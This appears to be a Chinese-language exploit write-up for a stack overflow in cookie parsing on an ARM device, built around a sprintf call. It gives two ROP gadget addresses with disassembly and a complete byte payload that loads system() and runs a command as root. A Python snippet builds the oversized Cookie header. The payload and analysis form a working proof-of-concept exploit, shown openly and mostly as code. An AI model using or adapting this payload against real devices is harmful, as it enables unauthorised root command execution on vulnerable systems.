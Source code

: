 在构造请求时，如何进行针对sprintf 进行 构造十分重要。

在cookie解析中通过堆栈溢出进行命令执行，命令执行以system root 进行，

```
  address 1: 405e2e34 - load system into r3 and address 2 into lr #通过
 .text:000D0E34 0F 48 BD E8                 LDMFD   SP!, {R0-R3,R11,LR}  
 .text:000D0E38 1E FF 2F E1                 BX      LR

 address 2: 406037cc - load the system command into r0. Jump to system.

 .text:000F17CC 0D 00 A0 E1                 MOV     R0, SP
 .text:000F17D0 33 FF 2F E1                 BLX     R3

 [   address 1  ][ r0 ][      r1      ][ r2 ][  r3 system   ][ r11 ][  LR - addr2  ][ system command ]
 \x34\x2e\x5e\x40\xaa\xaa\xaa\xaa\xbb\xbb\xbb\xbb\xcc\xcc\xcc\xcc\xfc\xbf\x54\x40\xee\xee\xee\xee\xcc\x37\x60\x40touch /tmp/lolwat
```

[ARM汇编指令-STMFD和LDMFD](http://www.techbulo.com/563.html)

[ARM指令B BL BLX BX区别](https://blog.csdn.net/xinianbuxiu/article/details/52718178)

对构造的payload 进行分析

```python 
'Cookie: PHPSESSID=982e6c010064b3878a4b793bfab8d2d2' +                    'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaAAAABBBBCCCCDD' +
       '\x34\x2e\x5e\x40\xaa\xaa\xaa\xaa\xbb\xbb\xbb\xbb\xcc\xcc\xcc\xcc\xfc\xbf\x54\x40\xee\xee\xee\xee\xcc\x37\x60\x40' + command +
                    '\r\n\r\n')
        
 通过 
982e6c010064b3878a4b793bfab8d2d2aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaAAAABBBBCCCCDD
共170 字节消耗内存
直接覆盖
 [address 1]:\x34\x2e\x5e\x40
 [r0]:\xaa\xaa\xaa\xaa
 [r1]:\xbb\xbb\xbb\xbb
 [r2]:\xcc\xcc\xcc\xcc
 [r3 system]:\xfc\xbf\x54\x40   #system地址
 [r11]:\xee\xee\xee\xee
 [lr]：\xcc\x37\x60\x40
触发 address 1 进行入数据栈如上
 .text:000D0E34 0F 48 BD E8                 LDMFD   SP!, {R0-R3,R11,LR}  
 .text:000D0E38 1E FF 2F E1                 BX      LR
跳转到：LR内存地址
 .text:000F17CC 0D 00 A0 E1                 MOV     R0, SP
 .text:000F17D0 33 FF 2F E1                 BLX     R3
跳转到R3 地址
执行  command
```
